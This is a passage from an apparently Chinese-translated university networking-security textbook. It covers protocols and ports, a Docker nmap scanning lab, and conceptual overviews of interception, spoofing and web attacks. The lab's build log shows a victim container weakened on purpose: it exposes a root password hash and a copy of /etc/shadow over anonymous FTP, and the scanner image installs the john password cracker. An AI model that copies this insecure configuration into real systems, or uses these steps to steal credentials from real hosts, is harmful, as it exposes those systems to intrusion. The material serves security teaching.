ICMP 也用于 `traceroute` 命令。`traceroute` 逐渐增加 ICMP 数据包的生存时间 (TTL) 字段，并监视 TTL 超时消息，以确定数据包到达主机所走的路由。示例 `traceroute` 输出如下：

```
traceroute to 8.8.8.8 (8.8.8.8), 30 hops max, 60 byte packets 1 ryan.njitdm.campus.njit.edu (172.24.80.1) 0.217 ms 0.200 ms 0.252 ms 2 ROOter.lan (192.168.2.1) 5.790 ms 5.765 ms 6.275 ms 3 * * * ① 4 B4307.NWRKNJ-LCR-21.verizon-gni.net (130.81.27.166) 19.166 ms 19.144 ms 21.097 ms 5 * * * ① 6 0.ae1.GW7.EWR6.ALTER.NET (140.222.2.227) 12.376 ms 14.634 ms 0.ae2.GW7.EWR6.ALTER.NET (140.222.2.229) 9.805 ms 7 209.85.149.208 (209.85.149.208) 9.782 ms 10.331 ms 9.192 ms 8 * * * ① 9 dns.google (8.8.8.8) 11.313 ms 9.761 ms 9.758 ms
```

① 注意这些路由器未响应 ICMP 数据包

尽管 ICMP 很有用，但来自外部源的 ICMP 数据包通常会被忽略。网络工程师使用 ICMP 来排查自己的网络故障，但允许外部方也这样做会是一个安全问题。因此，不要指望所有外部主机都会响应 ping。它们可能仍然在线，但您需要找到 [另一种方法来检测它们。](https://nmap.org/book/man-host-discovery.html)

### 4.2.3. NAT


网络地址转换 (NAT) 主要用于允许本地 IP 地址共享一个公共 IPv4 地址。鉴于 IPv4 地址空间的不足，许多设备必须共享一个地址。如在讨论 IPv6 时提到的，NAT 路由器通常还包括安全功能，例如有状态防火墙，因为执行 NAT 所需的硬件复杂性与防火墙所需的相当。

### 4.2.4. IPsec

互联网协议安全 (IPsec) 用于建立点对点加密隧道，以保护 IP 网络中传输中的数据。IPsec 主要用于专用 VPN 链接，并使用三个主要部分：SA、ESP 和 AH：

SA 代表安全关联，是用于设置加密参数和交换密钥的通道。这通过 UDP 端口 500 进行。

ESP 代表封装安全有效载荷，用于加密 IP 头和有效载荷。它使用协议字段设置为 50 的标准 IP 数据包发送。

AH 代表认证头，可以可选地在协议字段设置为 51 的标准 IP 数据包中使用。AH 只是确保数据包未被篡改。

## 4.3. 传输层协议

### 4.3.1. TCP

传输控制协议 (TCP) 是大多数网络的核心。它通过三次握手提供可靠通信，将大数据段分解为数据包，确保数据完整性，并为这些数据包提供流量控制。所有这些当然都有代价，这种面向连接的协议通常比其对等体具有更高的延迟。鉴于 TCP 的复杂性，它经常成为攻击目标。TCP 栈不断适应和变化（在协议参数范围内），以避免 DoS 和中间人攻击。

### 4.3.2. UDP

用户数据报协议 (UDP) 是一种无连接协议，旨在用于 TCP 可能延迟过高的情况。UDP 通过不进行握手或流量控制来实现这种性能提升。结果是一种速度快的协议，有时会丢弃数据报。UDP 常用作游戏或流媒体协议的基础，在这些协议中，数据包的时机比它们是否全部到达更重要。UDP 仍然使用校验和，因此您可以确定收到的任何 UDP 数据包的完整性。

### 4.3.3. 常用端口和服务

端口号用于传输层连接中，以指定要连接的服务。这允许单个主机上运行多个服务。端口 0 到 1023 是周知端口，通常支持常用服务。在大多数操作系统中，绑定到周知端口并监听连接需要管理员权限。注册端口范围从 1024 到 49151，在其上运行服务不需要管理员权限。您可能会发现许多东西在监听这些端口，因为任何用户都可以在其上拥有服务。最后，端口 49152 到 65535 由应用程序根据需要动态使用。

了解一些常用端口很重要，因为在这些端口上运行的服务可能会受到攻击。扫描机器时，只有必要的端口应该开放。

Port NumberL4 ProtocolUsage


# 4.4 应用层协议

## 4.4.1 DHCP

动态主机配置协议（DHCP）用于允许网络上的新客户端获取 IP 地址以及有关所提供服务的信息。IPv4 地址可以分为两组：静态地址和动态地址。动态地址由 DHCP 服务器在特定租期内分配。租期到期后，DHCP 服务器可能会将该地址分配给另一个客户端。DHCP 服务器还可以提供有关代理、域名服务器（DNS）、网关，甚至关于如何通过网络引导操作系统内核的信息，详见 [通过网络引导操作系统内核的位置！](https://en.wikipedia.org/wiki/Preboot_Execution_Environment)。

鉴于现代网络的动态特性，客户端不断加入和离开，DHCP 已成为标准。从安全角度来看，冒充 DHCP 服务器的人员可能会对网络造成严重破坏。这些恶意 DHCP 服务器可能会导致流量被重定向以发起中间人（MitM）攻击，或导致拒绝服务（DoS）攻击。DHCP 依赖于广播地址解析协议（ARP）消息，且不使用身份验证，这意味着一旦攻击者与受害机器处于同一以太网段，安全防护便形同虚设。

## 4.4.2 HTTP

超文本传输协议（HTTP）是一种基于文本的协议，用于规范网络流量的传输方式。它基于 `request` 和 `response` 的概念。典型的请求包含一个 `method` 和一个 `path`，例如 `GET /index.html`，这将检索网站的登录页面。响应包含代码、消息，以及可选的数据。一些标准响应如下所示：

| Code | Message |
|------|---------|
| 200 | OK |
| 202 | Accepted |
| 400 | Bad Request |
| 401 | Unauthorized |
| 403 | Forbidden |
| 404 | Not Found |
| 500 | Internal Server Error |
| 502 | Bad Gateway |

# 常用端口

| Port | Protocol | Service |
|------|----------|---------|
| 20 | TCP | File Transfer Protocol (FTP) Data Transfer |
| 21 | TCP | FTP Command Control |
| 22 | TCP | Secure Shell (SSH) |
| 23 | TCP | Telnet Remote Login Service |
| 25 | TCP | Simple Mail Transfer Protocol (SMTP) E-Mail |
| 53 | TCP, UDP | Domain Name System (DNS) |
| 67, 68 | UDP | Dynamic Host Configuration Protocol (DHCP) |
| 69 | UDP | Trivial File Transfer Protocol (TFTP) |
| 80 | TCP | Hypertext Transfer Protocol (HTTP) |
| 110 | TCP | Post Office Protocol (POP3) E-Mail |
| 119 | TCP, UDP | Network News Transfer Protocol (NNTP) |
| 123 | UDP | Network Time Protocol (NTP) |
| 137-139 | TCP, UDP | NetBIOS |
| 143 | TCP | Internet Message Access Protocol (IMAP) E-Mail |
| 161, 162 | TCP, UDP | Simple Network Management Protocol (SNMP) |
| 194 | TCP, UDP | Internet Relay Chat (IRC) |
| 389 | TCP, UDP | Lightweight Directory Access Protocol (LDAP) |
| 443 | TCP | HTTP Secure (HTTPS) HTTP over TLS/SSL |
| 3389 | TCP, UDP | Microsoft Terminal Server (RDP) |


# 503 服务不可用

请求和响应都可以利用 `headers`，即在初始请求或响应之后的任意文本行。由于头部被设计为开放式的，随着时间的推移，许多新头部被添加进来。现代 Web 请求/响应在头部中包含的信息通常远比 HTTP 1.1 定义的基础信息要多。未加密的 HTTP 流量通过端口 80 传输，容易受到攻击，因为所有信息都以明文形式发送。

## 4.4.3. SSL/TLS


安全套接层 (SSL) 或更现代的命名传输层安全 (TLS) 是一种协议，允许 Web 上使用的明文协议被加密。它是一种通用协议，设计为其他协议通信的层。通常包装在 TLS 中的一些协议包括 HTTP、SMTP、IMAP、VoIP 和许多 VPN 协议。TLS 使用握手来交换证书信息，如图所示。应当注意的是，在撰写本文时，TLS 1.3 是最新版本，但只有半数网站支持它。TLS 1.2 是最常见的版本，如果遵循最佳实践，仍被认为是安全的，而 TLS 1.1 或更低版本被视为已弃用。

## 4.4.4. HTTPS


超文本传输安全协议 (HTTPS) 通过将 HTTP 请求包装在 TLS 中来解决未加密流量的问题。HTTPS 流量使用端口 443，通常在浏览器左上角显示一个锁图标。单击图标，用户可以了解用于通信的证书的更多信息。利用强大的 PKI，HTTPS 允许客户端和服务器之间进行安全的 HTTP 通信。

## 4.4.5. RDP

远程桌面协议 (RDP) 内置于 Windows 中，通常用于远程控制计算机。它通过 TCP 或 UDP 在端口 3389 上工作。虽然 RDP 对远程机器的远程管理非常有用，但如果不法分子获得访问权限，它也可能成为巨大的安全漏洞。RDP 在勒索软件攻击中的使用正在增加，因为勒索软件程序可能使用 RDP 来寻找其他攻击目标。

## 4.4.6. Telnet

Telnet 是一种过时的远程管理工具，通过明文通道提供对 shell 的访问。Telnet 运行在端口 23 上，虽然仍偶尔被使用，但应大部分被淘汰。你仍会在嵌入式应用程序和旧系统中发现 Telnet。你也可能看到客户端被用来检查其他类型的流量。例如，你可以使用 Telnet 客户端提交 HTTP 请求或通过 SMTP 发送电子邮件。

## 4.4.7. SSH

安全外壳协议 (SSH) 是部署最广泛的远程管理工具。SSH 通过加密连接提供对 shell 的访问。SSH 支持许多选项，包括 SOCKS5 代理、端口转发以及多种身份验证方案：密码、密钥、硬件设备等。SSH 在端口 22 上使用 TCP。

## 4.4.8. LDAP


轻量级目录访问协议 (LDAP) 用于访问和维护目录信息服务。它的主要用途是与 Windows Active Directory (AD) 配合使用，可用于从 AD 服务器获取有关用户和资源的信息。客户端可以通过服务器进行身份验证，并获得读取或读写某些条目的权限。LDAP 最初不支持加密，因此开发了通过 SSL 的 LDAP (LDAPS)。LDAP 使用端口 389 上的 TCP 和 UDP，LDAPS 使用端口 636 上的 TCP。

## 4.4.9. DNS

域名系统 (DNS) 用于将域名解析为 IP 地址。域名是人们习惯用于网站的简单名称，例如 `njit.edu`，而不是 `54.83.189.142`。名称比 IP 地址更容易让人记住。为了让计算机解析名称，它首先查询本地缓存，然后查询其主 DNS 服务器。假设 DNS 服务器找不到该名称，它将查询根服务器以获取顶级域 (TLD) 服务器，该服务器维护该特定域（edu、com、net、org、gov 等）的权威名称服务器列表。最后，一旦找到权威名称服务器，它将响应该特定主机名的 IP 地址，该地址将被缓存，并通过用户的主 DNS 服务器发送回用户。

DNS 设计为具有弹性和去中心化，但不幸的是，流量未经过身份验证或加密。这使其成为中间人攻击的目标。同样，缓存命中和未命中 [可能会泄露最近解析了哪些名称的信息](https://kb.isc.org/docs/aa-00509)（就像发现索尼 Rootkit 范围的情况一样）。DNS 的递归性质在过去也允许拒绝服务攻击，但通过将递归查询限制在面向用户的 DNS 服务器（即 DHCP 请求提供给你的服务器）上，其中大部分问题已得到解决。DNS 通过端口 53 上的 UDP（以及偶尔的 TCP）运行。

## 4.4.10. DNSSEC

域名系统安全扩展 (DNSSEC) 是一套旨在对域名查询响应进行身份验证的扩展规范。这可以通过检查响应服务器的数字签名来帮助防止中间人攻击。虽然这当然很有帮助，但重要的是要注意，DNSSEC 不提供机密性。任何有权访问流量的人仍然可以监控 DNS 解析。

## 4.4.11. IMAP/POP3

互联网消息访问协议 (IMAP) 和邮局协议 3 (POP3) 是用于从服务器检索电子邮件的两种协议。IMAP 是较新的协议，支持在服务器上保存邮件和文件夹。POP3 更为原始，仅支持检索电子邮件（并随后从服务器删除）。两种协议都使用明文，现在通常通过 TLS 运行。POP3 默认使用 TCP 端口 110，如果使用 TLS 则为 995。IMAP 默认使用 TCP 端口 143，如果使用 TLS 则为 993。在 Webmail 时代，很容易忘记这些协议，但安全专家必须牢记它们，因为它们可能仍用于支持企业设备。

## 4.4.12. SMTP

简单邮件传输协议用于发送/转发电子邮件。正如其名称所示，它是一种由文本行组成的简单协议。基本 SMTP 在端口 25 上使用 TCP。SMTP 后来扩展以支持身份验证，并最终被包装在 TLS 中，仍然在端口 587 上使用 TCP。SMTP 服务器接受（希望经过身份验证的）客户端的外发邮件，根据 DNS 记录中的邮件交换 (MX) 信息将邮件路由到其他 SMTP 服务器，并接受来自其他 SMTP 服务器的其域邮件。SMTP 服务器中实现了各种检查，以确保来自域 `actually` 的消息确实来自这些域。这主要用于打击垃圾邮件，垃圾邮件仍然是一个问题。

## 4.4.13. NTP

网络时间协议使用端口 123 上的 UDP 将系统时间与时间服务器同步。NTP 服务器分层为 stratum，最低 stratum 最接近最准确的时间源，如原子钟、GPS 等。NTP 很重要，因为许多协议（包括几个关键交换）要求系统时钟同步。系统时钟也用于检查证书何时过期，并用于日志中指示某事发生的时间。如果没有准确且同步的系统时钟，许多事情都会以惊人的方式失败。

## 4.4.14. FTP

文件传输协议是一种相对简单的基于文本的协议，用于在机器之间传输文件。FTP 在端口 21 上使用 TCP，并传统上建立两个通道：一个用于协议消息，另一个用于数据的二进制通道。这种设置有趣的地方在于，FTP 服务器会从服务器到客户端启动数据通道的连接，这意味着在许多客户端难以通过防火墙访问的 NAT 情况下，它会失败。解决这个问题的方法是被动 FTP，它使用由客户端建立的单个通道。

尽管存在这一初始缺陷，FTP 已被证明非常流行，并且仍在许多企业环境中使用。你可能会看到 FTP 用于传输大量数据以导入系统，或用于更新嵌入式系统中的固件。你可以使用命令行客户端 `ftp`、图形客户端（如 Filezilla 或 SecureFX），甚至在大多数 Web 浏览器中使用 `ftp://` URL 方案来使用 FTP。

不幸的是，FTP 不支持除密码以外的身份验证系统，并且密码以明文形式发送。因此，建议使用安全 FTP (SFTP)。SFTP 使用 SSH 连接通过加密通道发送和接收文件。SFTP 还支持所有 SSH 身份验证方法。

## 4.4.15. SNMP



简单网络管理协议用于收集有关网络运行情况的信息。它分为两组：使用 UDP 端口 161（TLS 10161）的客户端和使用 UDP 端口 162（TLS 10162）的管理器。管理器收集客户端关于网络操作的消息，并使用这些信息根据需要采取行动。SNMP 可用于传递有关机器温度、当前连接数量、当前正在使用的通道容量等信息。SNMP 目前已更新至版本 3，该版本经过加密并需要身份验证。这一点尤其重要，因为 SNMP 是一种非常强大的协议，交换的信息对攻击者来说可能非常有价值。对 SNMP 的访问应受到限制，并且在网络上对其使用情况应进行监控。

## 4.5. 实验：使用 nmap 进行扫描

对于本实验，我们将首先下载并提取所需的文件。下载 [nmap.zip](https://github.com/rxt1077/it230/raw/main/labs/nmap.zip) 并将其提取到可以从 shell 访问的目录。在该目录中打开 shell（它应该包含一个 `docker-compose.yml` 文件以及 `victim` 和 `scanner` 目录）。由于我们将在本实验中模拟多台机器，我们将使用已随 Docker 安装的 Docker Compose。Docker Compose 读取 `docker-compose.yml` 文件，该文件应该已经在你的 `nmap` 目录中。运行 `docker-compose up --build --detach` 以在后台构建和运行镜像：

```
PS C:\Users\rxt1077\temp\nmap> docker-compose up --build --detach
Building victim
[+] Building 2.9s (15/15) FINISHED => [internal] load build definition from Dockerfile 0.1s
=> => transferring dockerfile: 518B 0.0s
=> [internal] load .dockerignore 0.1s
=> => transferring context: 2B 0.0s
=> [internal] load metadata for docker.io/library/debian:latest 0.0s
=> [ 1/10] FROM docker.io/library/debian 0.0s
=> [internal] load build context 0.0s
=> => transferring context: 640B 0.0s
=> CACHED [ 2/10] RUN apt-get -y update 0.0s
=> CACHED [ 3/10] RUN apt-get -y install proftpd-basic 0.0s
=> CACHED [ 4/10] RUN sed -i "1s/.*/root:$6$.DEC7ti\/4959zEK9$H7BPwBTz6tISYG8oZuhXLS5L3ZPYwdzzQNQTg8m4Ql3ebX9U\/afVhi4OSpK3mNTSpT8DefJ2USdWuT5DHOkRY 0.0s
=> [ 5/10] RUN sed -i "/^root/d" /etc/ftpusers 0.4s
=> [ 6/10] COPY bad.conf /etc/proftpd/conf.d/ 0.0s
=> [ 7/10] RUN chsh -s /bin/bash ftp 0.6s
=> [ 8/10] RUN mkdir -p /home/ftp/incoming 0.5s
=> [ 9/10] RUN cp /etc/shadow /home/ftp/incoming/shadow.backup 0.6s
=> [10/10] RUN chown -R ftp.users /home/ftp 0.5s
=> exporting to image 0.2s
=> => exporting layers 0.2s
=> => writing image sha256:dc9af53b250b4f7fcfbe5a6668a540bd02ebef0353c5927ed4591a512363e831 0.0s
=> => naming to docker.io/library/nmap_victim 0.0s
Use 'docker scan' to run Snyk tests against images to find vulnerabilities and learn how to fix them
Building scanner
[+] Building 0.1s (7/7) FINISHED => [internal] load build definition from Dockerfile 0.0s
=> => transferring dockerfile: 111B 0.0s
=> [internal] load .dockerignore 0.0s
=> => transferring context: 2B 0.0s
=> [internal] load metadata for docker.io/library/debian:latest 0.0s
=> [1/3] FROM docker.io/library/debian 0.0s
=> CACHED [2/3] RUN apt-get -y update 0.0s
=> CACHED [3/3] RUN apt-get -y install nmap ftp john 0.0s
=> exporting to image 0.0s
=> => exporting layers 0.0s
=> => writing image sha256:14ba503b7925089023184d783c53c22c4167fdf2338df0e85143daedf8b458ac 0.0s
=> => naming to docker.io/library/nmap_scanner 0.0s
Use 'docker scan' to run Snyk tests against images to find vulnerabilities and learn how to fix them
Starting nmap_scanner_1 ... done
Recreating nmap_victim_1 ... done
```

现在我们实际上有两个容器在运行，一个名为 `victim`（我们的目标机器），另一个名为 `scanner`（我们将用来了解 nmap）。让我们在 `scanner` 上启动一个 BASH shell，并从那里开始工作：

```
PS C:\Users\rxt1077\temp\nmap> docker-compose run scanner bash
Creating nmap_scanner_run ... done
root@7b6d733cc03a:/①
```

① 注意提示符的变化。我们现在正在 `scanner` 容器内运行 BASH。

让我们使用 Linux `ip addr` 命令查看我们在此网络上的 IP 地址：

```
root@7b6d733cc03a:/# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
inet 127.0.0.1/8 scope host lo valid_lft forever preferred_lft forever
2: tunl0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
link/ipip 0.0.0.0 brd 0.0.0.0
3: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
link/sit 0.0.0.0 brd 0.0.0.0
165: eth0@if166: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff
link-netnsid 0
inet 172.20.0.2/16 brd 172.20.255.255 scope global eth0 valid_lft forever preferred_lft forever
```

我们关心的是 `eth0` 设备，所以如你所见，在我机器上地址是 `172.20.0.2`。我们将使用 nmap 的 ping 扫描来搜索我们 IP 地址最后 8 位（`/24`）内的任何设备。你可能会注意到，我们实际上处于 `/16` 子网中，但通过将自己限制在 `/24`，扫描速度会快得多。

```
root@7b6d733cc03a:/# nmap -sP 172.20.0.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2021-09-22 20:25 UTC
Nmap scan report for 172.20.0.1
Host is up (0.000076s latency).
MAC Address: 02:42:A6:CA:0D:77 (Unknown)
Nmap scan report for nmap_victim_1.nmap_default (172.20.0.3)
Host is up (0.000070s latency).
MAC Address: 02:42:AC:14:00:03 (Unknown)
Nmap scan report for 7b6d733cc03a (172.20.0.2)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 5.78 seconds
```

在这种情况下，我们在网络上发现了三台其他机器。其中一台方便地命名为 victim。

现在让我们对 victim 机器进行完整扫描。Docker Compose 在 `docker-compose.yml` 文件中很好地解析了合理名称的 DNS 请求，因此我们可以将要扫描的主机称为 `victim`。

```
root@7b6d733cc03a:/# nmap victim
Starting Nmap 7.70 ( https://nmap.org ) at 2021-09-22 20:37 UTC
Nmap scan report for victim (172.20.0.3)
Host is up (0.000018s latency).
rDNS record for 172.20.0.3: nmap_victim_1.nmap_default
Not shown: 999 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
MAC Address: 02:42:AC:14:00:03 (Unknown)
Nmap done: 1 IP address (1 host up) scanned in 1.84 seconds
```

默认情况下，nmap 对知名端口使用 [SYN](https://www.techtarget.com/searchnetworking/definition/SYN-scanning) 扫描。这种扫描更难被检测（因为它不会完全打开连接），并且可以快速运行。

nmap 的功能远不止简单的端口扫描。nmap 包含版本检测和操作系统指纹识别（以及其他功能）。为了更好地了解 `victim` 到底在运行什么，你可以使用 `-A` 选项：

```
root@7b6d733cc03a:/# nmap -A victim
Starting Nmap 7.70 ( https://nmap.org ) at 2021-09-22 20:44 UTC
Nmap scan report for victim (172.20.0.3)
Host is up (0.000096s latency).
rDNS record for 172.20.0.3: nmap_victim_1.nmap_default
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x 1 ftp users 4096 Sep 22 20:11 incoming
MAC Address: 02:42:AC:14:00:03 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint: OS:SCAN(V=7.70%E=4%D=9/22%OT=21%CT=1%CU=44136%PV=Y%DS=1%DC=D%G=Y%M=0242AC%T
OS:M=614B95AE%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=Z%TS=A
OS:)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B
OS:4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88
OS:)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%D
OS:F=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=4
OS:0%CD=S)
Network Distance: 1 hop
TRACEROUTE
HOP RTT ADDRESS
1   0.10 ms nmap_victim_1.nmap_default (172.20.0.3)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.39 seconds
```

现在，使用你当前所在的 `scanner` 容器，看看你能发现关于 `victim` 的哪些信息。[此手册页可能会有所帮助。](https://linux.die.net/man/1/ftp)

当你探索完毕后，可以退出 shell 并运行 `docker-compose down` 来停止 `victim` 在后台运行。

## 4.6. 复习问题

比较和对比 SSH 和 Telnet。如果你必须推荐使用其中之一，你会选择哪个，为什么？：与 ARP 相关的一些安全问题是什么？可以采取哪些措施来缓解它们？：描述三种用于发送或接收电子邮件的协议。：

# 5. 攻击

## 5.1. 拦截攻击

拦截攻击依赖于拦截网络通信的能力。这可能是由于所使用的网络的性质，或者有时可能会利用其他方法来更好地定位攻击者。这些攻击通常涉及伪造虚构消息、记录传输的数据，或在网络上更改消息内容。这一攻击家族使 CIA 三要素的所有部分都面临风险。

### 5.1.1. MitM


中间人攻击 (MitM) 是一个统称，适用于攻击者拦截通信的情况。典型的攻击涉及窃听，并可能修改两方之间的消息。可以使用加密来缓解攻击，使攻击者无法解密他们拦截的消息。话虽如此，必须特别注意握手/密钥交换协议，以确保攻击者不会获得正在使用的密钥。以下是 MitM 用于拦截和修改公钥交换的示例：


在上面的示例中，MitM 允许第一条消息未经干扰地通过，但篡改了公钥交换。通过将自己的公钥传递给 Bob，MitM 有能力解密 Bob 发送的消息，并仍然可以使用 Alice 的公钥重新加密消息并将其传递给她。你可以看到，如果以这种方式交换两个公钥，就有可能设置 MitM 攻击，尽管有加密，所有消息都可以被看到。

### 5.1.2. MitB

MitB 代表浏览器中间人，通常是由木马安装恶意软件引起的，该恶意软件允许攻击者拦截/修改浏览器和服务器之间的通信。这可以用于捕获表单上的数据、修改输入或修改服务器的响应。通常，MitB 攻击中使用的软件会保持休眠状态，直到受害者浏览到目标网站。以下是 MitB 攻击如何用于修改网上银行请求以发送资金的示例：


如你所见，攻击者最终得到了 10,000 美元，而受害者只是认为他们授权了向他人支付 1,000 美元。这些攻击可能难以检测，因为它们发生在浏览器内部，并且是机会主义的。

### 5.1.3. 重放攻击

这一攻击家族通常涉及 MitM 复制传输并 `重放` 它来冒充受害者。登录凭据、简单哈希和特定命令有时容易受到这种类型的攻击。解决方案是使用时间戳、随机数（特定会话的随机数）、滚动密钥或计数器，以确保命令不能在上下文之外执行。

### 5.1.4. SSL 规避


如果你考虑上面 MitM 示例中给出的被拦截密钥交换，类似的攻击可以允许攻击者查看 SSL 流量。攻击者给受害者一个虚假的证书颁发机构 (CA) 证书，受害者安装它。这通常通过木马完成。然后，攻击者将自己置于未启动的安全连接中间。在密钥交换期间，攻击者为攻击者和受害者之间的连接创建一个由虚假 CA 签名的自定义证书。攻击者还与服务器建立实际的 HTTPS 连接，并为受害者代理数据。受害者的所有数据都将以明文形式出现在攻击者那里，但连接对受害者来说将显得是安全的。这在 [Fiddler](https://www.telerik.com/fiddler) 调试代理中用于解密 HTTPS 流量，也用于执行深度数据包检测的某些网络设备中。

对 SSL 的另一种 MitM 攻击只是与受害者保持或降级到 HTTP 连接，并将数据代理到与服务器的实际 HTTPS 连接。大多数服务器会升级不安全的连接，但通过拦截该交换，攻击者可以继续监控受害者的流量。

## 5.2. 网络层攻击

### 5.2.1. MAC 欺骗/MAC 克隆

大多数网络期望 MAC 地址将与网络接口控制器 (NIC) 上的唯一编号相对应，但实际上更改它相当容易。虚拟网络需要能够使用不同的 MAC 地址，此功能已内置在大多数现代操作系统中。MAC 欺骗是指攻击者将其 MAC 地址设置为网络上另一台机器的 MAC 地址，以试图发起攻击。例如，他们可能将自己设置为网关以发起 MitM 攻击。

### 5.2.2. MAC 泛洪

交换机负责跟踪哪些 MAC 地址对应交换机上的哪些端口。它们使用此功能来确保流量仅路由到需要去的地方。鉴于 MAC 地址可以更改，攻击者可以用许多不同的 MAC 地址的数据包淹没交换机，并可能溢出 MAC-端口路由表。某些交换机可能会默认采用类似集线器的功能，并将帧发送到所有端口，以努力保持流量流动。这随后允许攻击者捕获网络上其他机器的流量。

### 5.2.3. ARP 毒化


攻击者还可以使用 ARP 数据包来冒充网络上的另一台机器，例如网关路由器。通过反复发送 ARP 数据包，`gratuitous arp`，将绑定到网关 IP 的数据包重定向到攻击者的 MAC 地址，攻击者可以设置 MitM 场景。这尤其困难，因为取决于 ARP 缓存的 TTL，正常网络操作可能需要长达 20 分钟才能恢复。

## 5.3. 互联网层攻击

### 5.3.1. IP 欺骗


不幸的是，互联网协议 (IP) 并未考虑安全性进行设计。这意味着默认情况下，任何 IP 地址都可以放入数据包头部，数据包仍会被转发到网络。这导致 IP 可以被 `spoofed` 并发送恶意数据包的问题。在此层面上，对此问题没有很好的解决方案。这意味着数据包的来源通常需要在更高层进行身份验证，并且协议必须考虑到 IP 层本质上是不安全的事实。

## 5.4. 名称解析攻击

### 5.4.1. DNS 缓存毒化

DNS 解析器可能被诱骗缓存错误信息并将其提供给其他客户端。在此场景中，攻击者通过用伪造的源 IP 响应 DNS 查询来承担权威 DNS 服务器的角色。之所以可能发生这种情况，原因之一是 DNS 查询响应通常是单个、未经身份验证的数据包。一旦服务器拥有无效的 DNS 缓存条目，它将在条目的 TTL 期间继续将用户引导到错误的 IP 地址。[DNSSEC](https://cloud.google.com/dns/docs/dnssec) 可以通过强制对 DNS 答案进行身份验证来缓解这些攻击。

### 5.4.2. LLMNR 劫持

在此场景中，攻击者响应链路本地多播名称解析 (LLMNR) 广播并冒充身份验证服务器。毫无戒心的受害者输入他们的凭据，这些凭据随即被窃取。可以通过在网络上禁用 LLMNR 来缓解此攻击。

## 5.5. Web 攻击

万维网及其使用的协议/格式/语言（HTTP、HTML、JavaScript 等）最初 `并未` 考虑安全性进行设计。默认情况下，网页信任其接收的内容不具有恶意。脚本、命令、Cookie 等被隐式信任。Web 技术变得如此流行，以至于它们成为攻击者的常见目标，开发人员必须使用令牌、清理数据并检查输入，如果他们希望这些技术安全。

[开放 Web 应用程序安全项目 (OWASP)](https://owasp.org/) 是 Web 应用程序安全资源的绝佳来源。他们维护一份 Web 应用程序安全风险的前 10 名列表。截至 2021 年，[OWASP 前 10 名](https://owasp.org/www-project-top-ten/) 是：

Broken Access Control Cryptographic Failures Injection Insecure Design Security Misconfiguration Vulnerable and Outdated Components Identification and Authentication Failures Software and Data Integrity Failures Security Logging and Monitoring Failures Server-Side Request Forgery

### 5.5.1. XSS

跨站脚本是指不良行为者将脚本注入网站的过程。回想一下，许多网站会从表单获取输入，并可能在另一个页面上显示这些数据。如果这些数据不仅仅是数据，而是实际上是一个 JavaScript 脚本，那么该脚本可能会在显示它的页面上运行。

使用此技术，攻击者可以访问 Cookie、会话令牌和其他敏感信息。取决于脚本注入的位置以及服务器如何显示这些数据，脚本可能会永久存储在目标服务器上。XSS 脚本也可能被反射，通常发送在链接中，仅用于一个会话。

为了缓解 XSS 风险，Web 开发人员清理其输入非常重要。当提交表单时，网站应检查提交的数据是否不是脚本或其他恶意内容。如果数据无法清理，则不应存储或使用它。

### 5.5.2. CSRF

跨站请求伪造 (CSRF) 涉及使用受害者已验证的会话来发起不属于该会话的请求。想象一下，你已登录 Twitter。攻击者在 GMail 中向你发送一个表单链接，当点击时，它会发布一条推文说，“我是 CSRF 受害者。”假设 Twitter 接受表单提交，你的时间线上将出现一条推文，内容为“我是 CSRF 受害者。”

这可能是最温和的场景，你可以想象在网上银行应用程序中情况会糟糕得多。解决方案是网站（本例中为 Twitter）使用 CSRF 令牌（它确实如此）。生成表单时，会将一个随机值作为隐藏输入包含在内。该随机的隐藏输入就是 CSRF 令牌。当提交时，如果提交的 CSRF 令牌与为表单创建的令牌（只有有效网站知道）不匹配，则不接受提交。

CSRF 令牌是 Web 应用程序需要主动安全而非安全设计的又一个示例。大多数 Web 应用程序都在使用它们，但开发人员很容易忘记。

### 5.5.3. SSRF


Web 系统通常与内部服务器通信以检索信息。这些可能是 API 服务器、数据库或消息服务器。如果攻击者能够诱骗 Web 服务器将恶意请求传递给其内部服务器，攻击者就可以滥用系统的内部信任。这被称为服务器端请求伪造 (SSRF)。再次，这种攻击通过输入验证来缓解，输入验证需要包含在应用程序中。

### 5.5.4. 会话劫持

会话劫持可能涉及其他妥协方法，但最终目标是“窃取”受害者与另一台服务器之间的会话。想象以下场景：一个人登录到他们的个人银行网站，该网站向他们发放一个 Cookie，证明他们已通过身份验证。不良行为者正在通过一个 XSS 漏洞监控连接，该漏洞将所有连接 Cookie 转发给他们。不良行为者使用发放的 Cookie 从用户的银行账户向不良行为者的银行账户进行转账。

